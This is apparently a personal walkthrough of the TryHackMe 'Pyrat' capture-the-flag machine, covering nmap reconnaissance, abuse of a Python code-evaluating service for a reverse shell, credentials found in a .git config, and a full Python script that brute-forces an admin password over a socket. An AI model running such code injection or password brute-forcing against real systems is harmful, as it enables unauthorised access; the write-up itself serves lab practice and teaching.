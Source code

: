 ![Pyrat image](Pasted%20image%2020250810193916.png)
<!--![[Pasted image 20250810193916.png]]-->
## Description:
Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

### Target IP: 10.201.88.90

### Reconnaissance
Nmap Scan Result:
```
┌──(nightcrypt㉿kali)-[~/Documents/Tryhackme/THM_Machines/Pyrat]
└─$ nmap -sC -sV 10.201.88.90       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 16:45 PST
Nmap scan report for 10.201.88.90 (10.201.88.90)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:2f:91:03:ba:80:49:38:c3:49:78:ed:db:c2:8a:5a (RSA)
|   256 d2:c8:ce:22:d7:74:bb:52:42:6c:ce:95:a3:d3:60:90 (ECDSA)
|_  256 e3:c9:39:b2:6c:05:1c:d4:d1:70:f0:58:c2:6a:73:39 (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=8/10%Time=68985C2E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20defin
SF:ed\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20
SF:null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<strin
SF:g>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\
SF:x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20
SF:is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20n
SF:ot\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x
SF:20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sour
SF:ce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1
SF:B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x
SF:20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20
SF:syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20cod
SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.58 seconds
```

I typed the IP and port number on the site to check if we could find anything but it returns 'Try a more basic connection' as shown in the image below:
![Pyrat image](2025-08-10_19-41.png)
<!--![[2025-08-10_19-41.png]]-->



### Initial Foothold:

With this, I tried connecting via Netcat:
```
nc 10.201.88.90 8000
```

I typed '_GET / HTTP/1.1_' but it returns: 
```
name 'GET' is not defined
```
This is not a normal HTTP response.

The server is likely running a python code so I tried typing this:
```
print(1+1)
2
```

As seen above, it returned '2' as a response. Therefore, our theory was validated that it is running a python code. Using this information, we could run a payload to create a connection.

I used Payload playground to create a python reverse shell using this link: https://payloadplayground.com/generators/reverse-shell. I only copied the command inside the single quote.
![Pyrat image](2025-08-10_19-55.png)
<!--![[2025-08-10_19-55.png]]-->
I setup the netcat listener on port 4444 first then pasted the generated payload in the nc connection that we established earlier:
![Pyrat image](2025-08-10_19-59.png)
<!--![[2025-08-10_19-59.png]]-->

Press enter and we would see the connection in our nc listener:
![Pyrat image](2025-08-10_20-02.png)
<!--![[2025-08-10_20-02.png]]-->

After a lot of manual enumeration, I stumbled upon the /opt/dev/.git directory where you'll see a config file:
![Pyrat image](2025-08-10_20-05.png)
<!--![[2025-08-10_20-05.png]]-->

Check the file and you'll get the Credentials to login via ssh.
![Pyrat image](2025-08-10_20-08.png)
<!--![[2025-08-10_20-08.png]]-->

### User flag
After logging in, you'll see the user flag.
![Pyrat image](userflag.png)
<!--![[userflag.png]]-->


### Privilege Escalation
I checked the processes to look for possible privilege escalation vectors and there's a pyrat.py file that is running in the background using the root privileges.
![Pyrat image](2025-08-10_20-15.png)
<!--![[2025-08-10_20-15.png]]-->

Since we saw this endpoint existed in the old version, we can fuzz for other endpoints. I initially typed 'admin' in our nc connection to check for a low hanging fruit and I just got lucky to get a valid endpoint.
![Pyrat image](2025-08-10_20-28.png)
<!--![[2025-08-10_20-28.png]]-->


After this, I was prompt to enter a password so I asked the help of an LLM to write this **python script** to brute-force its password:

```python
import socket

# Configuration
target_ip = "10.201.88.90"  # Target IP
target_port = 8000         # Target port
password_wordlist = "/usr/share/seclists/Passwords/500-worst-passwords.txt"  # Path to your password wordlist file

def connect_and_send_password(password):
    try:
        # Create a socket connection
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))

        # Send 'admin' username first
        client_socket.sendall(b'admin\n')

        # Receive server's response
        response = client_socket.recv(1024).decode()

        if "Password:" in response:  # Check if server is asking for a password
            client_socket.sendall(password.encode() + b"\n")  # Send password

            # Receive server's response to the password
            response = client_socket.recv(1024).decode()

            # Show only if there is a valid hit or specific response
            if "success" in response.lower() or "welcome" in response.lower():  # Adjust based on actual success messages
                print(f"[+] Valid password found: {password}")
                return True
            
            # Optionally show any other significant responses
            if "invalid" in response.lower() or "incorrect" in response.lower():  # Adjust based on actual error messages
                print(f"[-] Response for password '{password}': {response}")

        return False

    except Exception as e:
        return False

    finally:
        client_socket.close()  # Always ensure the socket is closed

def fuzz_passwords():
    # Open the password wordlist file
    with open(password_wordlist, "r", encoding="utf-8", errors="ignore") as file:
        passwords = file.readlines()

    # Iterate through each password in the wordlist
    for password in passwords:
        password = password.strip()  # Remove any newline characters

        if connect_and_send_password(password):
            break  # Exit after finding the first valid password

if __name__ == "__main__":
    fuzz_passwords()
```

![Pyrat image](admin_password.png)
<!--![[admin_password.png]]-->

We got a valid password! Now, we just got to enter it in our nc connection to gain a shell.

### Root flag

After a successful login, you just got to read the root flag.

![Pyrat image](rootflag.png)
<!--![[rootflag.png]]-->


Happy Hacking!!!
